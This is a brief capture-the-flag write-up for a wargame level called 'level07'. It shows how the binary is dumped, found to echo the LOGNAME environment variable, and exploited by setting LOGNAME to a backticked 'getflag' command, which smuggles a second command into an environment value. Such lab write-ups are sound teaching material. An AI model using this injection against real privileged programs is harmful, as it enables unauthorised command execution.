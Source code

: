 chmod 777 .

# We found an executable './level07'
# The executable print 'level07'
# We changed his name and re-execute it, it printed 'level07' again

# We dumped the executable:
hexdump -C ./level07
# We noticed that he echo the value of the env variable 'LOGNAME'

export LOGNAME=\`getflag\`
./level07

# TADAAAAAA
